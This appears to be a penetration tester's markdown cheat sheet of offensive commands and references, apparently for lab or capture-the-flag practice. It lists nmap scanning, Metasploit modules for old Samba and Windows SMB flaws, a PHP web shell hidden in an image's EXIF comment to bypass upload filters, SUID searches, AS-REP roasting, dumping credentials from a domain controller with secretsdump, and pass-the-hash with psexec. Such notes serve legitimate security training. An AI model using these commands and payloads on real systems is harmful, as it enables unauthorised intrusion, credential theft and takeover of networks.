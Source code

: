 # Recon
Scan aggresivly on all ports with OS detection, version detection, script scanning and traceroute and write to file
```
nmap -p- -T4 -oN <outfile> -A <IP>
```

# Metasploit
local_exploit_suggester is really helpfull, but only on x86

## Correlation

Service | CVE | MSF-Module
--- | --- | ---
Samba 3.0.20 | [CVE-2007-2447](https://nvd.nist.gov/vuln/detail/CVE-2007-2447) | exploit/multi/samba/usermap_script
Windows <7| [CVE-2008-4250](https://nvd.nist.gov/vuln/detail/CVE-2008-4250) | exploit/windows/smb/ms08_067_netapi


# FTP
Try 
```
ftp <ip>
```
and use "anonymous" as name.

# Local Priv Esc
https://gtfobins.github.io/
https://lolbas-project.github.io/#

# File-Filter-Busting

```
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' lo.jpg

Exiftool is a great tool to view and manipulate exif-data. Then I had to rename the file

mv lo.jpg lo.php.jpg
```
https://github.com/xapax/security/blob/master/bypass_image_upload.md


# Interactive Python pty
`python3 -c 'import pty; pty.spawn("/bin/sh")'`


# Sticky-Bit
```
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \;
```

# Exploit via Path if SUID-Binary does not use full path
https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/

# SMB-Enum
enum4linux

# AzureAD
https://github.com/VbScrub/AdSyncDecrypt/releases
https://vbscrub.com/2020/01/14/azure-ad-connect-database-exploit-priv-esc/

# Windows-RPC-Service
https://nmap.org/nsedoc/scripts/nfs-showmount.html

# Enum AD
`GetNPUsers.py -usersfile <user_list> -dc-ip <dc-ip> <domain>/`

Afterwards crack with john or oclhashcat

# Dumps Cred from DC
`secretsdump.py "<domain>/<user>:<pwd>"@<target-host>`
  
# Use Hash to access pc
`psexec.py -hashes <hash> <user>@<target-host>`
